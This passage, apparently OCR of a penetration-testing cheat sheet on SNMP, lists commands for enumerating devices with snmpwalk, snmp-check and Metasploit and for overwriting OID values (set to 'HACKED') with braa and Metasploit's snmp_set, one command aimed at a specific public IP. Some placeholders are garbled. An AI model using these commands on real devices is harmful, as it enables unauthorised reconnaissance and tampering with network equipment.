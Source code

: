     #return code is the number of found OIDs
    sys.exit(count)
    #by xorguy
    ```
    
    - **Usage**
    
    `python3 script.py -v 1|2c 192.168.0.3 -c public IP.100.123.1`
    
- Writing Process
    - **translate OID**
    
    `snmptranslate -On iso.3.6.1.2.1.1.4.0e`
    
    - **revalue OID**
    
    **braa👙**
    
    `braa👙 community@IP.151.20.3:port:.1.3.6.oid.9.1.4.5=newvalue`
    
    **metasploit**
    
    ```bash
    msf6>use scanner/snmp/snmp_set
    msf6 auxiliary(scanner/snmp/snmp_set) > show options 
    
    Module options (auxiliary/scanner/snmp/snmp_set):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMUNITY  public           yes       SNMP Community String
       OID                         yes       The object identifier (numeric notation)
       OIDVALUE                    yes       The value to set
       RETRIES    1                yes       SNMP Retries
       RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
       RPORT      161              yes       The target port (UDP)
       THREADS    1                yes       The number of concurrent threads (max one per host)
       TIMEOUT    1                yes       SNMP Timeout
       VERSION    1                yes       SNMP Version <1/2c>
    msf6 auxiliary(scanner/snmp/snmp_set) > set RHOSTS IP 
    msf6 auxiliary(scanner/snmp/snmp_set) > set VERSION 1 OR 2c 
    msf6 auxiliary(scanner/snmp/snmp_set) > set COMMUNITY privateasexampel 
    msf6 auxiliary(scanner/snmp/snmp_set) > set OID .1.3.ta.rg.et.oi.d.9.4.5
    msf6 auxiliary(scanner/snmp/snmp_set) > set OIDVALUE HACKED
    ```
    

### **Enumeration**

FOR Unkown Version`snmp-check 91.216.192.182 -c public -p 161`

FOR Triageing OIDs `snmpwalk 91.216.192.182 -c public -v 1|2c`

FOR Cool Output       `metasploit`

```bash
msf6 > use auxiliary/scanner/snmp/snmp_enum
msf6 auxiliary(scanner/snmp/snmp_enum) > show options

Module options (auxiliary/scanner/snmp/snmp_enum):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMUNITY  public           yes       SNMP Community String
   RETRIES    1                yes       SNMP Retries
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      161              yes       The target port (UDP)
   THREADS    1                yes       The number of concurrent threads (max one per host)
   TIMEOUT    1                yes       SNMP Timeout
```